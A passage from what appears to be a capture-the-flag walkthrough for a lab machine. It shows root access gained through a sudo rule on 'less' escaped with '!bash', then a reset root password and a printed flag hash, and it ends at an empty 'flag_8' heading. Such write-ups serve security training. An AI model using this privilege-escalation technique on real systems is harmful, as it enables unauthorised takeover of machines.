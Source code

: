 Find an exploit to gain a root shell.

**Solution:**

Look at the `sudo` permissions for sysadmin:

```bash
sysadmin:~\ $ sudo -l
[sudo] password for sysadmin: 
Matching Defaults entries for sysadmin on scavenger-hunt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadmin may run the following commands on
        scavenger-hunt:
    (ALL : ALL) /usr/bin/less
```

You have the ability to run `less` with `sudo`. 

Run less on a file and drop to a root shell:

```bash
sysadmin:~\ $ touch file && sudo less file
```

Once inside `less` open a bash shell with `:` then `!bash`

```bash
sysadmin:~\ $ touch file && sudo less file
root:~\ $ 
```

### flag_7:

Login as the root user.

**Solution:**
Now that you have a root shell, change the password for the root user and then login as `root`.

```bash
root:~\ $ passwd
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
root:~\ $ exit
exit
!done  (press RETURN)
sysadmin:~\ $ su root
Password: 

You found flag_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0

root@scavenger-hunt:/home/sysadmin#
```

### flag_8:
